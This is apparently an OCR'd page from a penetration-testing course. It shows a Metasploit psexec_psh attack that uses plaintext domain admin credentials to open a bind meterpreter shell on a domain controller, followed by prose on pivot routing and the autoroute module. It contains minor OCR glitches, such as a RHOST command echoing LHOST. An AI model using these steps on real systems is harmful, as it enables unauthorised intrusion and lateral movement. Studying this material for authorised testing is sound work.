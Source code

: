 msf5 exploit(windows/smb/psexec_psh) > set SMBUser jeff_admin
SMBUser => jeff_admin

msf5 exploit(windows/smb/psexec_psh) > set SMBPass Qwerty09!
SMBPass => Qwerty09!

msf5 exploit(windows/smb/psexec_psh) > set RHOSTS 192.168.1.110
RHOSTS => 192.168.1.110

msf5 exploit(windows/smb/psexec_psh) > set payload windows/meterpreter/bind_tcp
payload => windows/meterpreter/bind_tcp

msf5 exploit(windows/smb/psexec_psh) > set RHOST 192.168.1.110
LHOST => 192.168.1.110

msf5 exploit(windows/smb/psexec_psh) > set LPORT 444
LPORT => 444

msf5 exploit(windows/smb/psexec_psh) > exploit

[*] 192.168.1.110:445 - Connecting to the server...
[*] 192.168.1.110:445 - Authenticating to 192.168.1.110:445|corp as user 'jeff_admin'.
..
[*] 192.168.1.110:445 - Selecting PowerShell target
[*] 192.168.1.110:445 - Executing the payload...
[+] 192.168.1.110:445 - Service start timed out, OK if running a command or non-servic
e executable...
[*] Started bind TCP handler against 192.168.1.110:444
[*] Sending stage (180291 bytes) to 192.168.1.110
[*] Meterpreter session 5 opened (10.11.0.4-10.11.0.22:0 -> 192.168.1.110:444)

meterpreter >



 It’s important to note that the added route will only work with established connections. 
 
 Because of this, the new shell on the domain controller must be a bind shell, thus allowing us to use the set route to connect to it.
 
 A reverse shell payload would not be able to find its way back to our attacking system because the domain controller does not have a route defined for our network.
 
 In this manner, we were able to obtain a meterpreter shell from the domain controller on the internal network we would otherwise not be able to reach directly.

 As an alternative to adding routes manually, we can use the autoroute post-exploitation module,which can set up pivot routes through an existing meterpreter session automatically. 
 
 Listing 808d emonstrates how the module is invoked.

msf5 exploit(multi/handler) > use multi/manage/autoroute

msf5 post(multi/manage/autoroute) > show options

Module options (post/multi/manage/autoroute):

 Name Current Setting Required Description
 ---- --------------- -------- -----------
 CMD autoadd yes Specify the autoroute command (Accepted: add, a
utoadd, print, delete, default)
 NETMASK 255.255.255.0 no Netmask (IPv4 as "255.255.255.0" or CIDR as "/2
4"
 SESSION yes The session to run this module on.
 SUBNET no Subnet (IPv4, for example, 10.10.10.0)
 